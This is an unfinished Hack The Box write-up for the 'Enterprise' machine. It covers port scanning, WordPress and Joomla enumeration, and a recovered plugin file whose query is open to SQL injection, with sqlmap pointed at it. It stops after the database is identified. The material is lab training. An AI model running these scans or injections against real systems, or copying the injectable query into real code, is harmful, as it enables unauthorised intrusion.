










- Machine : https://app.hackthebox.com/machines/Enterprise
- Reference : https://0xdf.gitlab.io/2021/06/16/htb-enterprise.html
- Solved : 2024.00.00. (Thu) (Takes 0days)

## Summary
---


### Key Techniques:


---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.61
Performing quick port scan on 10.10.10.61...
Found open ports: 22,80,443,5355,8080,32812
Performing detailed scan on 10.10.10.61...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-03 01:25 EST
Nmap scan report for 10.10.10.61
Host is up (0.12s latency).

PORT      STATE    SERVICE  VERSION
22/tcp    open     ssh      OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:e9:8c:c5:b5:52:23:f4:b8:ce:d1:96:4a:c0:fa:ac (RSA)
|   256 f3:9a:85:58:aa:d9:81:38:2d:ea:15:18:f7:8e:dd:42 (ECDSA)
|_  256 de:bf:11:6d:c0:27:e3:fc:1b:34:c0:4f:4f:6c:76:8b (ED25519)
80/tcp    open     http     Apache httpd 2.4.10 ((Debian))
|_http-title: USS Enterprise &#8211; Ships Log
|_http-generator: WordPress 4.8.1
|_http-server-header: Apache/2.4.10 (Debian)
443/tcp   open     ssl/http Apache httpd 2.4.25 ((Ubuntu))
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.25 (Ubuntu)
| tls-alpn: 
|_  http/1.1
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=enterprise.local/organizationName=USS Enterprise/stateOrProvinceName=United Federation of Planets/countryName=UK
| Not valid before: 2017-08-25T10:35:14
|_Not valid after:  2017-09-24T10:35:14
5355/tcp  filtered llmnr
8080/tcp  open     http     Apache httpd 2.4.10 ((Debian))
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-generator: Joomla! - Open Source Content Management
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Home
|_http-server-header: Apache/2.4.10 (Debian)
32812/tcp open     unknown
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions: 
|     _______ _______ ______ _______
|     |_____| |_____/ |______
|     |_____ |_____ | | | _ ______|
|     Welcome to the Library Computer Access and Retrieval System
|     Enter Bridge Access Code: 
|     Invalid Code
|     Terminating Console
|   NULL: 
|     _______ _______ ______ _______
|     |_____| |_____/ |______
|     |_____ |_____ | | | _ ______|
|     Welcome to the Library Computer Access and Retrieval System
|_    Enter Bridge Access Code:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port32812-TCP:V=7.94SVN%I=7%D=1/3%Time=677782FC%P=aarch64-unknown-linux
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.97 seconds
```

- On SSL certificate, there's a domain name `enterprise.local`. Let's add this to `/etc/hosts`.
- 3 different web services are running on different ports : http(80, 8080), https(443)
- The service running on port 32812 looks intriguing. It actively returns banner.

### http(80)



The website isn't loaded properly. Mayne CSS is not loaded?
Anyway, on its source code, I can get a hint of the domain name.

```xml
<title>USS Enterprise &#8211; Ships Log</title>
<link rel='dns-prefetch' href='//enterprise.htb' />
<link rel='dns-prefetch' href='//fonts.googleapis.com' />
<link rel='dns-prefetch' href='//s.w.org' />
```

The domain name is `enterprise.htb`. Let's add this to `/etc/hosts`.
Then, let's visit the website again with the domain name.



Yes, I can see the better page.


The posts look like a log of some journey... Not that much interesting..
At least, I got a hint that there might be user of which actual is 'William Riker'.

Since it's running on `wordpress`, let's try scan with `wpscan`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ wpscan --url http://enterprise.htb --enumerate ap,at,u,tt --api-token $WPSCAN_API_TOKEN
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://enterprise.htb/ [10.10.10.61]
[+] Started: Fri Jan  3 02:26:08 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.10 (Debian)
 |  - X-Powered-By: PHP/5.6.31
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://enterprise.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://enterprise.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://enterprise.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8.1 identified (Insecure, released on 2017-08-02).
 | Found By: Rss Generator (Passive Detection)
 |  - http://enterprise.htb/?feed=rss2, <generator>https://wordpress.org/?v=4.8.1</generator>
 |  - http://enterprise.htb/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.8.1</generator>

<SKIPPED IDENTIFIED VULNERABILITIES SINCE IT's TOO LONG>

[i] User(s) Identified:

[+] william.riker
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] william-riker
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 5
 | Requests Remaining: 20

[+] Finished: Fri Jan  3 02:40:24 2025
[+] Requests Done: 31394
[+] Cached Requests: 15
[+] Data Sent: 8.159 MB
[+] Data Received: 27.004 MB
[+] Memory used: 345.273 MB
[+] Elapsed time: 00:14:16
```

Nothing much useful's found here.
Only the user name `william.riker` is identified.
It's probably the same user that we guessed.

### http(443)



It's a default web page of Apache2 webserver.
Let's use `gobuster` to find if there's any sub pages.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u https://enterprise.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k            
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://enterprise.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/files                (Status: 301) [Size: 318] [--> https://enterprise.htb/files/] 
```

There's a single page `/files` found.



There's a single zipfile named `lcars.zip`.
Let's download and see what's in it.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ls
lcars.zip  port-scan.sh


┌──(kali㉿kali)-[~/htb]
└─$ unzip lcars.zip                                    
Archive:  lcars.zip
  inflating: lcars/lcars_db.php      
  inflating: lcars/lcars_dbpost.php  
  inflating: lcars/lcars.php   


┌──(kali㉿kali)-[~/htb]
└─$ ls -al lcars
total 20
drwxrwxr-x 2 kali kali 4096 Jan  3 03:38 .
drwxrwxr-x 3 kali kali 4096 Jan  3 03:38 ..
-rw-r--r-- 1 kali kali  377 Oct 17  2017 lcars.php
-rw-r--r-- 1 kali kali  501 Oct 16  2017 lcars_db.php
-rw-r--r-- 1 kali kali  624 Oct 16  2017 lcars_dbpost.php

 
┌──(kali㉿kali)-[~/htb/lcars]
└─$ cat lcars.php 
<?php
/*
*     Plugin Name: lcars
*     Plugin URI: enterprise.htb
*     Description: Library Computer Access And Retrieval System
*     Author: Geordi La Forge
*     Version: 0.2
*     Author URI: enterprise.htb
*                             */
// Need to create the user interface. 
// need to finsih the db interface
// need to make it secure
?> 


┌──(kali㉿kali)-[~/htb/lcars]
└─$ cat lcars_db.php
<?php
include "/var/www/html/wp-config.php";
$db = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
// Test the connection:
if (mysqli_connect_errno()){
    // Connection Error
    exit("Couldn't connect to the database: ".mysqli_connect_error());
}
// test to retireve an ID
if (isset($_GET['query'])){
    $query = $_GET['query'];
    $sql = "SELECT ID FROM wp_posts WHERE post_name = $query";
    $result = $db->query($sql);
    echo $result;
} else {
    echo "Failed to read query";
}
?> 


┌──(kali㉿kali)-[~/htb/lcars]
└─$ cat lcars_dbpost.php 
<?php
include "/var/www/html/wp-config.php";
$db = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
// Test the connection:
if (mysqli_connect_errno()){
    // Connection Error
    exit("Couldn't connect to the database: ".mysqli_connect_error());
}
// test to retireve a post name
if (isset($_GET['query'])){
    $query = (int)$_GET['query'];
    $sql = "SELECT post_title FROM wp_posts WHERE ID = $query";
    $result = $db->query($sql);
    if ($result){
        $row = $result->fetch_row();
        if (isset($row[0])){
            echo $row[0];
        }
    }
} else {
    echo "Failed to read query";
}
?> 
```

It has information about database.
- The table name is `wp_posts` to read posts.
- `ID`, `post_title` belong to the columns of the table.

Let's take a look at the SSL certificate.


The domain name is `enterprise.local`, and here it reveals one valid username : `jeanlucpicard`

I enumerated further, but couldn't find anything special further.
Let's move onto the next web service on port 8080.

### http(8080)



It looks like a normal website, don't know what this site is about.
It has a login input as well..

There was no interesting subpages on `gobuster` scan.

```yaml
┌──(kali㉿kali)-[~/htb/lcars]
└─$ gobuster dir -u http://10.10.10.61:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.61:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 318] [--> http://10.10.10.61:8080/images/]                                                                 
/about                (Status: 200) [Size: 8160]
/home                 (Status: 200) [Size: 7685]
/1                    (Status: 200) [Size: 8285]
/01                   (Status: 200) [Size: 8286]
/2                    (Status: 200) [Size: 8594]
/02                   (Status: 200) [Size: 8595]
/media                (Status: 301) [Size: 317] [--> http://10.10.10.61:8080/media/]                                                                  
/templates            (Status: 301) [Size: 321] [--> http://10.10.10.61:8080/templates/]                                                              
/files                (Status: 301) [Size: 317] [--> http://10.10.10.61:8080/files/]                                                                  
/0                    (Status: 200) [Size: 7678]
/modules              (Status: 301) [Size: 319] [--> http://10.10.10.61:8080/modules/]                                                                
/Home                 (Status: 200) [Size: 7685]
/bin                  (Status: 301) [Size: 315] [--> http://10.10.10.61:8080/bin/]                                                                    
/plugins              (Status: 301) [Size: 319] [--> http://10.10.10.61:8080/plugins/]                                                                
/About                (Status: 200) [Size: 8160]
/includes             (Status: 301) [Size: 320] [--> http://10.10.10.61:8080/includes/]                                  
```

On its source code, I could identify its CMS backend : Joomla

```xml
<head>
	<meta name="viewport" content="width=device-width, initial-scale=1.0" />
	<meta charset="utf-8" />
	<base href="http://10.10.10.61:8080/" />
	<meta name="description" content="Ten Forward" />
	<meta name="generator" content="Joomla! - Open Source Content Management" />
```

For the further specified scan, let's try using `joomscan`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ joomscan -u http://10.10.10.61:8080
    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.10.10.61:8080 ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.5

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://10.10.10.61:8080/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://10.10.10.61:8080/robots.txt 

Interesting path found from robots.txt
http://10.10.10.61:8080/joomla/administrator/
http://10.10.10.61:8080/administrator/
http://10.10.10.61:8080/bin/
http://10.10.10.61:8080/cache/
http://10.10.10.61:8080/cli/
http://10.10.10.61:8080/components/                                        
http://10.10.10.61:8080/includes/                                          
http://10.10.10.61:8080/installation/                                      
http://10.10.10.61:8080/language/                                          
http://10.10.10.61:8080/layouts/                                           
http://10.10.10.61:8080/libraries/                                         
http://10.10.10.61:8080/logs/                                              
http://10.10.10.61:8080/modules/                                           
http://10.10.10.61:8080/plugins/                                           
http://10.10.10.61:8080/tmp/                                               

[+] Finding common backup files name                                       
[++] Backup files are not found                                            

[+] Finding common log files name                                          
[++] error log is not found                                                

[+] Checking sensitive config.php.x file                                   
[++] Readable config files are not found                                   

Your Report : reports/10.10.10.61:8080/ 
```

There's an `/administrator` page which leads us to admin panel.



However, I can't do anything without any valid credential.
So far, I've obtained several candidates of usernames, but no password yet..

Let's move onto the next unknown service.

### Unknown(32812)

```sql
┌──(kali㉿kali)-[~/htb]
└─$ nc -nv 10.10.10.61 32812 
(UNKNOWN) [10.10.10.61] 32812 (?) open

                 _______ _______  ______ _______
          |      |       |_____| |_____/ |______
          |_____ |_____  |     | |    \_ ______|

Welcome to the Library Computer Access and Retrieval System

Enter Bridge Access Code: 
```

The banner is `LCARS` which I saw from http(443) service zip file.
It's asking us to put "Bridge Access Code"

I tried several random texts, but it was not working..
I think I need to revisit php files I found from https service.


# Retrieving valid credentials from Database

### SQL Injection

Also, let's focus on the message in `lcars.php` file.
It seems that `lcars` is installed as a plugin in Wordpress CMS.

What about those two DB-related php files : `lcars_db.php`, `lcars_dbpost.php`
They allows SQL query after taking the user's query.

After inspecting those codes, I concluded that `lcars_db.php` might be vulnerable to SQL Injection while `lcars_dbpost.php` is not.
The reason why I'm guessing `lcars_dbpost.php` is not vulnerable is because it's converting query into integers.

Let's try SQL Injection on `lcars_db.php` using `sqlmap`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --dbs

<SNIP>

[05:02:55] [INFO] the back-end DBMS is MySQL
[05:02:55] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
web server operating system: Linux Debian 8 (jessie)
web application technology: Apache 2.4.10, PHP 5.6.31
back-end DBMS: MySQL >= 5.0
